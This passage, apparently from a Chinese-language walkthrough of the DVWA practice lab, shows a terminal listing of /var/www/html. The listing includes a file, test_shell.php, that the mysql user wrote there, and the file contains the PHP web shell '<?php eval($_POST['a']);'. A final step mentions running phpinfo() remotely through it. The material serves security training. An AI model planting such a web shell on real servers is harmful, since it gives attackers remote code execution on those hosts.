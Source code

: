 test_shell.php 文件由mysql用户写入到/var/www/html/ 目录下了，

```
root@ce51c0404636:/var/www/html# ls -al
total 188
drwxrwxrwx 1 www-data www-data  4096 Oct  1 14:40 .
drwxr-xr-x 1 root     root      4096 Apr  8  2021 ..
-rw-r--r-- 1 www-data www-data    29 Apr  8  2021 .git
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 .github
-rw-r--r-- 1 www-data www-data   229 Apr  8  2021 .gitignore
-rw-r--r-- 1 www-data www-data   500 Apr  8  2021 .htaccess
-rw-r--r-- 1 www-data www-data  7296 Apr  8  2021 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 33107 Apr  8  2021 COPYING.txt
-rw-r--r-- 1 www-data www-data 15460 Apr  8  2021 README.md
-rw-r--r-- 1 www-data www-data  3300 Apr  8  2021 about.php
drwxr-xr-x 1 www-data www-data  4096 Oct  1 14:29 config
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 docs
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 dvwa
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 external
-rw-r--r-- 1 www-data www-data  1406 Apr  8  2021 favicon.ico
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 hackable
-rw-r--r-- 1 www-data www-data   895 Apr  8  2021 ids_log.php
-rw-r--r-- 1 www-data www-data  4118 Apr  8  2021 index.php
-rw-r--r-- 1 www-data www-data  2192 Apr  8  2021 instructions.php
-rw-r--r-- 1 www-data www-data  4183 Apr  8  2021 login.php
-rw-r--r-- 1 www-data www-data   414 Apr  8  2021 logout.php
-rw-r--r-- 1 www-data www-data   154 Apr  8  2021 php.ini
-rw-r--r-- 1 www-data www-data   199 Apr  8  2021 phpinfo.php
-rw-r--r-- 1 www-data www-data    26 Apr  8  2021 robots.txt
-rw-r--r-- 1 www-data www-data  4724 Apr  8  2021 security.php
-rw-r--r-- 1 www-data www-data  3307 Apr  8  2021 setup.php
-rw-rw-rw- 1 mysql    mysql       39 Oct  1 14:40 test_shell.php
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 tests
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 vulnerabilities

root@ce51c0404636:/var/www/html# cat test_shell.php
admin admin
1 <?php eval($_POST['a']);
root@ce51c0404636:/var/www/html#
```

   c. 远程输入执行命令phpinfo()
